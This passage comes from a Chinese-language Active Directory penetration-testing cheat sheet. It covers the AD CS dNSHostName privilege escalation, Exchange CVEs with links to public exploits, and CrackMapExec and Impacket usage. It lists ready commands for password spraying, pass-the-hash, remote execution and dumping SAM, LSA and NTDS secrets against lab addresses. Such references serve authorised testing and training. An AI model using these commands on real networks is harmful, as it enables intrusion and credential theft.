	- 通过构造机器账户并篡改dNSHostName属性，在证书申请时AD CS将dNSHostName属性嵌入证书中，进而机器账户获得高权限的域控身份。
	- 攻击效果：允许低权限用户在安装了 Active Directory 证书服务 (AD CS) 服务器角色的默认 Active Directory 环境中将权限提升到域管理员。
	- 影响版本
		+ Windows 8.1
		+ Windows 10 Version 1607, 1809,1909, 2004, 20H2, 21H1, 21H2
		+ Windows 11
		+ Windows Server 2008，2012，2016，2019，2022
	- 利用条件
		+ 该提权漏洞适用于所有的Windows服务器活动目录版本，包含目前位于微软产品支持范围内的Windows Server 2012 R2到Windows Server 2022，以及超出产品支持范围的旧Windows服务器版本。
		+ 入侵者至少控制一个活动目录用户账户，该用户账户对于活动目录中至少一个计算机账户具有“Validated write to DNS host name”权限。默认情况下，单个活动目录普通域用户可以加入或创建（包含创建空账户）10个计算机账户到活动目录中，并对自己所加入/创建的计算机账户具有CREATOR OWNER管理权限（包含“Validated write to DNShost name”权限）。因此该权限较为容易获得。
		+ 在活动目录内部部署有企业证书服务，并允许上述被控制的计算机账户申请计算机身份验证证书。企业证书服务是活动目录中广泛部署的一种相关基础服务，并且默认情况下，与活动目录集成的企业证书服务默认即允许域内计算机申请计算机身份验证证书。
	- 参考资料
		+ https://forum.butian.net/share/1578
		+ https://forum.butian.net/share/1583

可控制Exchange服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2018-8581
	- Microsoft Exchange任意用户伪造漏洞
	- https://github.com/Ridter/Exchange2domain
	- https://github.com/WyAtu/CVE-2018-8581
+ CVE-2020-0688
	- Microsoft Exchange 反序列化RCE
	- https://github.com/zcgonvh/CVE-2020-0688

+ CVE-2021-26855/CVE-2021-27065
	- Exchange ProxyLogon远程代码执行漏洞
	- https://github.com/hausec/ProxyLogon
+ CVE-2020-17144
	- Microsoft Exchange 远程代码执行漏洞
	- 利用条件：Exchange2010
	- https://github.com/Airboi/CVE-2020-17144-EXP
+ CVE-2020-16875
	- Microsoft Exchange 远程代码执行漏洞
	- https://srcincite.io/pocs/cve-2020-16875.py.txt
+ CVE-2021-34473
	- Exchange ProxyShell SSRF
	- https://github.com/dmaasland/proxyshell-poc
+ CVE-2021-33766
	- Exchange ProxyToken 信息泄露漏洞
	- https://github.com/bhdresh/CVE-2021-33766-ProxyToken

相关工具
--------------------------------

内网扫描
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ auxiliary/scanner/discovery/udp_sweep    #基于udp协议发现内网存活主机
+ auxiliary/scanner/discovery/udp_probe    #基于udp协议发现内网存活主机
+ auxiliary/scanner/netbios/nbname         #基于netbios协议发现内网存活主机
+ auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描
+ nmap端口扫描

CrackMapExec 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 介绍：域环境（活动目录）渗透测试中一站式便携工具，列举登录用户、通过SMB(Server Message Block)网络文件共享协议爬虫列出SMB分享列表。执行类似于Psexec的攻击、使用powerShell脚本执行自动式Mimikatz/Shellcode/DLL注入到内存中，dump NTDS.dit密码。
+ 地址：``https://github.com/byt3bl33d3r/CrackMapExec``
+ 安装
	::
	
		最方便：
		apt-get install crackmapexec
		避免有坑：
		apt-get install -y libssl-dev libffi-dev python-dev build-essential
		pip install --user pipenv
		git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
		cd CrackMapExec && pipenv install
		pipenv shell
		python setup.py install
+ 说明
	- 帮助：``crackmapexec --help``
	- 根据协议获取帮助信息：``crackmapexec smb --help``
	- protocol：``ftp,smb,ssh,winrm,ldap,rdp,mssql``
	- 基本探测
		::
		
			crackmapexec [protocol] test.com
			crackmapexec [protocol] 192.168.3.70/24
			crackmapexec [protocol] 192.168.3.70-77  192.168.4.1-20
			crackmapexec [protocol] ~/ip.txt
	- 携带认证信息
		::
		
			crackmapexec [protocol] 192.168.3.70 -u administrator -p 'admin!@#45'
			携带hash：
			-H HASH [HASH ...], --hash HASH [HASH ...] NTLM hash(es) or file(s) containing NTLM hashes
	- 协议探测：``crackmapexec  smb 192.168.3.73-76``
	- 密码喷射
		::
		
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45'
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' 'Admin12345'
			crackmapexec smb 192.168.3.73-144 -u administrator  sqladmin -p 'admin!@#45' 'Admin12345'
			crackmapexec smb 192.168.3.73-144 -u ~/name.txt -p ~/pass.txt
			crackmapexec smb 192.168.3.73-144 -u ~/name.txt -H ~/ntlmhash.txt
			crackmapexec smb 192.168.3.73-144 -u user -H 'NTHASH'
			crackmapexec smb 192.168.3.73-144 -u user -H 'LMHASH:NTHASH'
	- 执行命令：``crackmapexec smb 192.168.3.144 -u administrator -p 'admin!@#45' -x whoami``
	- 凭证获取
		::
		
			crackmapexec smb 192.168.3.144 -u administrator -p 'admin!@#45' --sam
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --lsa
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds vss
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds-history
	- Sessions枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --sessions``
	- 共享枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --shares``
	- 磁盘枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --disk``
	- 登录用户枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --loggedon-users``
	- RID爆破枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --rid-brute``
	- 域用户枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --users``
	- 组枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --groups``
	- 本地组枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --local-groups``
	- 域密码策略枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --pass-pol``

Impackt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 安装
	- git clone https://github.com/CoreSecurity/impacket.git
	- cd impacket/
	- python setup.py install
+ 通用选项
	- 密码认证连接：``python3 xxx.py [域]/[用户名]:[密码]@[目标ip]``
	- hash认证连接：``python3 xxx.py [域]/[用户名]@ip -hashes :161cff084477fe596a5db81874498a24``
	- Kerberos认证：``export KRB5CCNAME=ad01.ccache ``,``python3 xxx.py -k -no-pass``
	- 指定目标IP：``-target-ip 192.168.40.156``
	- 指定域控IP：``-dc-ip 192.168.40.156``
+ psexec.py
	- 类似PSEXEC的功能示例，使用remcomsvc（https://github.com/kavika13/remcom）。
+ smbexec.py：
	- 与使用remcomsvc的psexec w/o类似的方法。这里描述了该技术。实例化本地smbserver以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。
+ atexec.py
	- 通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。
+ wmiexec.py
	- 通过Windows Management Instrumentation使用的半交互式shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。
+ dcomexec.py
	- 类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点。目前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。
+ GetTGT.py
	- 指定密码，哈希或aesKey，此脚本将请求TGT并将其保存为ccache。
+ GetST.py
	- 指定ccache中的密码，哈希，aesKey或TGT，此脚本将请求服务票证并将其保存为ccache。如果该帐户具有约束委派（具有协议转换）权限，您将能够使用-impersonate参数代表另一个用户请求该票证。
+ GetPac.py
	- 获得指定目标用户的PAC（权限属性证书）结构，该结构仅具有正常的经过身份验证的用户凭据。它通过混合使用[MS-SFU]的S4USelf +用户到用户Kerberos身份验证组合来实现的。
+ GetUserSPNs.py
	- 查找和获取与普通用户帐户关联的服务主体名称。
+ GetNPUsers.py
	- 尝试为那些设置了属性“不需要Kerberos预身份验证”的用户获取TGT（UF_DONT_REQUIRE_PREAUTH)。
+ ticketer.py
	- 从头开始或基于模板（根据KDC的合法请求）创建金/银票据，允许您在PAC_LOGON_INFO结构中自定义设置的一些参数，特别是组、外接程序、持续时间等。
+ raiseChild.py
	- 通过（ab）使用Golden Tickets和ExtraSids的基础来实现子域到林权限的升级。
+ samrdump.py
	- 从MSRPC套件与安全帐户管理器远程接口通信的应用程序中。它列出了通过此服务导出的系统用户帐户、可用资源共享和其他敏感信息。
+ secretsdump.py
	- 执行各种技术从远程机器转储Secrets。
+ mimikatz.py
	- 远程mimikatz RPC服务器的迷你shell。
+ ntlmrelayx.py
	- 此脚本执行NTLM中继攻击，设置SMB和HTTP服务器并将凭据中继到许多不同的协议。
+ karmaSMB.py
	- 无论指定的SMB共享和路径名如何，都会响应特定文件内容的SMB服务器。
+ smbserver.py
	- SMB服务器的Python实现，允许快速设置共享和用户帐户。
+ smbclient.py
	- 通用的SMB客户端。
+ wmiquery.py
	- 它允许发出WQL查询并在目标系统上获取WMI对象的描述（例如，从win32_account中选择名称）
+ wmipersist.py
	- 此脚本创建/删除wmi事件使用者/筛选器，并在两者之间建立链接，以基于指定的wql筛选器或计时器执行Visual Basic Basic。
+ lookupsid.py
	- 安全标识符（SID）是可变长度的唯一值，用于标识用户帐户，通过[MS-LSAT] MSRPC接口的Windows SID暴力破解查找远程用户和组。
+ reg.py
	- 通过[ms-rrp]msrpc接口远程注册表操作工具。
+ rpcdump.py
	- 转储目标上注册的RPC端点和字符串绑定列表,它还将尝试将它们与已知端点列表进行匹配。
+ opdump.py
	- 这将绑定到给定的hostname:port和msrpc接口。然后，它尝试依次调用前256个操作号中的每一个，并报告每个调用的结果。
+ services.py
	- 此脚本可用于通过[MS-SCMR] MSRPC接口操作Windows服务。它支持启动，停止，删除，状态，配置，列表，创建和更改。
+ getArch.py
	- 此脚本将与目标（或目标列表）主机连接，并使用文档化的msrpc功能收集由（ab）安装的操作系统体系结构类型。
+ netview.py
	- 获取在远程主机上打开的会话列表，并跟踪这些会话在找到的主机上循环，并跟踪从远程服务器登录/退出的用户。
+ goldenPac.py
	- 利用MS14-068。保存Golden Ticket并在目标位置启动PSExec会话。
+ sambaPipe.py
	- 该脚本将利用CVE-2017-7494，通过-so参数上传和执行用户指定的共享库。
+ smbrelayx.py
	- 利用SMB中继攻击漏洞CVE-2015-0005。如果目标系统正在执行签名并且提供了计算机帐户，则模块将尝试通过NETLOGON收集SMB会话密钥。
+ mssqlinstance.py
	- 从目标主机中检索MSSQL实例名称。
+ mssqlclient.py
	- MSSQL客户端,支持SQL和Windows身份验证（哈希）.它还支持TLS。
+ registry-read.py
	- Windwows注册表文件格式实现。它允许解析脱机注册表配置单元.
+ GetADUsers.py
	- 此脚本将收集有关域用户及其相应电子邮件地址的数据。它还将包括有关上次登录和上次密码设置属性的一些额外信息。
+ ping.py
	- 简单的ICMP ping。
+ ping6.py
	- 简单的IPv6 ICMP ping，它使用ICMP echo和echo-reply数据包来检查主机的状态。
